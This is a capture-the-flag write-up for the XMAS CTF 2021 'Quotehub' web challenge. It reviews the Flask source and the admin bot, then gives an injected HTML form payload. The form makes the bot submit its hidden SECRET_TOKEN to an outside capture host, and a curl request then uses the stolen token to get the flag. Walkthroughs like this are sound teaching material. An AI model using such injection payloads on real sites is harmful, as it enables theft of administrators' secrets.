

# Quotehub

Here is my writeup of Quotehub challenge of XMAS CTF 2021.

- Challenge url: http://challs.xmas.htsp.ro:3007/
- Source code: [Source code](quotehub.zip)


## First look


We can see a page with quotes, we can submit quotes so let's take a look.


We can submit a quote with our name, but we cannot see the result..

## First look at the code

There is a Dockerfile, a bot directory and files directory.

In the bot folder we can see a bot code made in Python so the challenge is a web-client challenge.

If we take a look to the source code we can see that there are 3 pages on the challenge:
- /
- /submit
- /quote/latest

```py
@app.route ('/', methods = ['GET'])
def index():
    return render_template ("index.html", quotes=quotes)


@app.route ('/submit', methods = ['GET', 'POST'])
def submit():
    if request.method == 'GET':
        return render_template ("submit.html")

    quote = request.form.get('quote')
    author = request.form.get('author')
    if not isinstance(quote, str) or not isinstance(author, str) or len(quote) > 256 or len(quote) < 8 or len(author) > 32 or len(author) < 4:
        return 'NOPE'

    quote_obj = {
        'text': quote,
        'author': author
    }
    pending_quotes.append(quote_obj)
    return render_template ("submit.html", message=f"Quote submitted successfully.")


@app.route ('/quote/latest', methods = ['GET', 'POST'])
def quote():
    global pending_quotes
    if request.method == 'GET':
        if request.cookies.get('admin_cookie', False) != ADMIN_COOKIE or len(pending_quotes) == 0:
            return 'NOPE'
        q = pending_quotes[0]
        pending_quotes = pending_quotes[1:]
        print("Admin viewing quote: ", q)
        return render_template ("quote_review.html", quote=q, SECRET_TOKEN=SECRET_TOKEN)

    action = request.form.get('action')
    secret = request.form.get('secret')
    if not isinstance(action, str) or action not in ['APPROVE', 'REJECT'] or secret != SECRET_TOKEN:
        return 'NOPE'

    if action == "REJECT":
        return redirect("/list", code=302)

    return "You did it! Here's your reward: " + FLAG
```

The /quote/latest isn't allowed to us and return a NOPE because we have not the ADMIN_COOKIE. If we take a look, we can see that the flag is displayed if our quote is APPROVE by someone who has the SECRET_TOKEN, so our purpose is to steal this SECRET_TOKEN.

## Starting exploit

In the bot code we can see that he clicks on the button first button with a red class.

```py
while True:
	try:
		# print("get /quote/latest", flush=True)
		driver.get('http://127.0.0.1:2000/quote/latest')
		
		# print("reject button - press", flush=True)
		rejectBtn = WebDriverWait(driver, 5).until(
			EC.presence_of_element_located((By.CLASS_NAME, "red"))
		)
		rejectBtn.click()

		# print("sleep 3", flush=True)
		time.sleep(3)
	except:
		pass
```

So we can perform a clickjacking by creating a fake button and form to get the form parameters because the SECRET_TOKEN is in default form:

```html
<form method="POST">
	<input type="hidden" name="secret" value="{{SECRET_TOKEN}}">
	<input class="btn green" type="submit" name="action" value="APPROVE">
    <input class="btn red" type="submit" name="action" value="REJECT">
</form>
```

Our payload will be:
```
<form method="POST" action="https://challenge.free.beeceptor.com"><input class="red" type="submit" name="action" value="APPROVE">
```


Yeah! We got our secret token: `4cb386b57ea526f9d72aa2fd76f97e143f1e51174b66cfe92ef0fbb5f4a20be71cf9f1463369305278aa4502fe34461c8a0e575d4c31aa31386177a68919e65a`

To finish we have to make a POST request to `/quote/latest` with an action and secret post parameters as the admin does.

`curl -X POST -d "action=APPROVE" -d "secret=4cb386b57ea526f9d72aa2fd76f97e143f1e51174b66cfe92ef0fbb5f4a20be71cf9f1463369305278aa4502fe34461c8a0e575d4c31aa31386177a68919e65a" http://challs.xmas.htsp.ro:3007/quote/latest`



Here is our flag: `X-MAS{got_teh_secret-f8ba357874717b6142e8219b}`